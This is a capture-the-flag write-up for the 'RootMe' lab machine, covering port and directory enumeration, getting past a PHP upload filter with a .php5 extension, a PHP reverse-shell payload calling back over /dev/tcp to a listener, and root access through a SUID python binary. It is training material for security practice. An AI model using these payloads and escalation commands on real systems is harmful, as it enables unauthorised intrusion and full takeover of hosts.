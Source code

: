 # RootMe -- CTF Writeup -- File Upload Exploit, Reverse Shell, and Privilege Escalation

## Nmap Scan

```bash
nmap -sS 10.10.183.212
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Service Enumeration

```bash
nmap -sC -sV -p 22,80 10.10.183.212
```
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
```

> Note: Although the server reports Apache `2.4.41`, the challenge expects version `2.4.29`.

## Directory Enumeration

```bash
gobuster dir -u http://10.10.183.212 -w /usr/share/wordlists/dirb/common.txt
```
```
/.hta                 (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/css                  (Status: 301) --> /css/
/index.php            (Status: 200)
/js                   (Status: 301) --> /js/
/panel                (Status: 301) --> /panel/
/server-status        (Status: 403)
/uploads              (Status: 301) --> /uploads/
```

Discovered `/panel/` which allows file uploads.

## Initial Foothold - File Upload Bypass

The server blocks `.php` uploads, but allows alternate PHP extensions (`.php5`, `.phtml`).

### Reverse Shell Payload

`shell.php5`:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.201.59.141/4444 0>&1'"); ?>
```

### Listener

```bash
nc -lvnp 4444
```

Accessing `http://10.10.183.212/uploads/shell.php5` triggers a reverse shell.

```
Connection received on 10.10.183.212 59852
```

## User Flag

```bash
find / -type f -name "user.txt" 2>/dev/null
cat /var/www/user.txt
```
```
*flag value*
```

## Privilege Escalation

Upgrade shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Check for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```
Found `/usr/bin/python2.7` with SUID.

Exploit via GTFOBins:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## Root Flag

```bash
find / -type f -name "root.txt" 2>/dev/null
cat /root/root.txt
```
```
*flag value*
```
